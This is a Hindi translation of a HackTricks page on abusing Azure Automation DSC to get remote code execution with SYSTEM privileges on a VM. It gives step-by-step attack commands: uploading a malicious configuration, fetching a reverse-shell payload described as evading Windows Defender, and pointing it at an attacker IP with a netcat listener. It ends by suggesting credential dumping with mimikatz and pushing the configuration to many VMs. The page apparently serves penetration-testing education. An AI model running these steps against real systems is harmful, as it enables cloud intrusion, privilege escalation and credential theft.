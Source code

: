 # Az - राज्य कॉन्फ़िगरेशन RCE

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS की नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फ़ॉलो** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

**यह पोस्ट** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe) **से कॉपी की गई है**

### रिमोट सर्वर (C2) इंफ्रास्ट्रक्चर की तैयारी <a href="#f0fa" id="f0fa"></a>

मैं दूरस्थ सर्वर "40.84.7.74" से Nishang Invoke-PowerShellTcp.ps1 पेलोड का एक संक्षिप्त संस्करण होस्ट करूंगा, जो काली बॉक्स है। पेलोड का नाम "RevPS.ps1" होगा। किसी भी कारण से निशांग स्क्रिप्ट को विंडोज डिफेंडर द्वारा हटा दिया जाने से बचाने के लिए (शायद आप फ़ाइल को डिस्क पर छोड़ना पसंद करेंगे) मेरे पास यहां एक हल्का संस्करण है जिसका उपयोग कर सकते हैं जो डिफेंडर को छलनी करेगा: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)। इसे काली बॉक्स पर एक साधारण Python Simple Server द्वारा होस्ट किया जाएगा।

### चरण 1 — फ़ाइलें बनाएँ <a href="#89de" id="89de"></a>

हमें एक और DSC कॉन्फ़िगरेशन फ़ाइल बनानी होगी। एक टेम्पलेट यहां से डाउनलोड की जा सकती है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)। इस कॉन्फ़िगरेशन फ़ाइल में हम पहले से ही उपयोग किए गए फ़ाइल-लेखन कार्य का उपयोग करेंगे। इस बार, सामग्री में हमारे दूरस्थ सर्वर से पेलोड डाउनलोड और निष्पादित करने के लिए कोड शामिल होगा। इसके अलावा, हम _ComputerManagementDsc_ मॉड्यूल से उपलब्ध निर्धारित-कार्य कार्य का उपयोग कर रहे हैं। निर्धारित-कार्य कार्य बाद में निष्पादन करने और हमें SYSTEM विशेषाधिकारों के साथ प्रदान करने में महत्वपूर्ण भूमिका निभाएगा।

हमें एक स्क्रिप्ट भी डाउनलोड करना होगा जिसका उपयोग VM पर हमारी कॉन्फ़िगरेशन प्रकाशित करने के लिए किया जाएगा। यहां स्थित है: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)।

ये फ़ाइलें टेम्पलेट के रूप में सेवा करेंगी। **आपको उपयोग कर रहे चरणों, संसाधन नामों, फ़ाइल पथों और आपके उपयोग कर रहे बाहरी सर्वर/पेलोड नामों के साथ चरणों को भरने की आवश्यकता होगी**। कृपया कोड में टिप्पणियों का संदर्भ दें।

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### चरण 2 — कॉन्फ़िगरेशन फ़ाइल को ज़िप करें <a href="#c2c2" id="c2c2"></a>

हमारी दो फ़ाइलें बनाने के साथ, हम **'reverse\_shell\_config.ps1'** फ़ाइल को ज़िप करेंगे ताकि इसे स्टोरेज खाते को भेजा जा सके।
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### चरण 3 — संग्रह संदर्भ सेट करें और अपलोड करें <a href="#bed9" id="bed9"></a>

फिर से, हम अपने संग्रह खाते के संदर्भ को सेटअप करेंगे जिसे मैं पहले से ही कर चुका हूँ। मेरे पास पहले से ही 'azure-pentest' नामक एक कंटेनर है, इसलिए यहीं पर मैं अपना अपलोड करूंगा:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### चरण 4 — Kali बॉक्स को तैयार करें <a href="#20fb" id="20fb"></a>

हमारे Kali बॉक्स में, हम आसानी से _wget_ का उपयोग करके हमारे PowerShell पेलोड को डाउनलोड कर सकते हैं। रॉ रिवर्स-शेल स्क्रिप्ट यहां स्थित है: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

हमें रिवर्स-शेल स्क्रिप्ट को संपादित करने की आवश्यकता होती है, जिसमें हम अपने पैरामीटर जोड़ते हैं, ताकि विंडोज VM जान सके कि जब यह निष्पादित होता है तो वह कहां कनेक्ट करेगा। मेरे मामले में मैं निम्नलिखित जोड़ता हूँ:
```
RevPShell -Reverse 40.84.7.73 443
```
<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### चरण 5 — कॉन्फ़िगरेशन फ़ाइल प्रकाशित करें <a href="#9ad6" id="9ad6"></a>

अब हम अपनी कॉन्फ़िगरेशन फ़ाइल चलाएंगे। मेरे पास इसे बेहतर दिखाई देने के लिए डेस्कटॉप पर प्रकाशित करने का सेटअप है, हालांकि इसे कहीं भी प्रकाशित किया जा सकता है। कुछ मिनटों के बाद, हम देखेंगे कि रिवर्स-शेल स्क्रिप्ट प्रकाशित हो गया है!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### चरण 6 — पेलोड होस्ट करें और लिस्टनर सेटअप करें <a href="#c55f" id="c55f"></a>

कॉन्फ़िगरेशन प्रकाशित करने के बाद, हम पोर्ट 80 पर पेलोड होस्ट करने के लिए पायथन SimpleHTTPServer और एक नेटकैट लिस्टनर साथ में समयानुसार शुरू कर सकते हैं:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
हम देखते हैं कि निर्धारित कार्य को चलाया गया है और हमारा पेलोड **SYSTEM** स्तर की अनुमतियों के साथ मेमोरी में प्राप्त और निष्पादित हो गया है!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### समाप्ति <a href="#1ec2" id="1ec2"></a>

यह अब बहुत सारे संभावनाओं के लिए दरवाजा खोलता है। क्योंकि हमारे पास **SYSTEM** के रूप में चल रहा एक शेल है, हम मिमीकैट्स के साथ क्रेडेंशियल्स डंप कर सकते हैं (यह क्लाउड संसाधनों के लिए EDR कितना परिपक्व है पर निर्भर करेगा)। यदि आप क्रेडेंशियल्स डंप करते हैं, तो इन्हें अलग-अलग संसाधनों में फिर से उपयोग किया जा सकता है। अंत में, एक महत्वपूर्ण बात यह है कि इसे एक वीएम से सीमित नहीं किया जा सकता है, अब आपके पास संभावित रूप से इस कॉन्फ़िगरेशन को कई वीएम पर लागू करने की क्षमता है।

उस नोट पर, यह हमारे Azure Automation DSC साहसिकों को समाप्त करता है! मुझे आशा है कि आपको मज़ा आया होगा, बहुत कुछ सीखा होगा और अपनी स्वयं की रचनात्मकता के साथ आगे बढ़ता रहेगा।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS की नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे ट्विटर पर फ़ॉलो करें** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
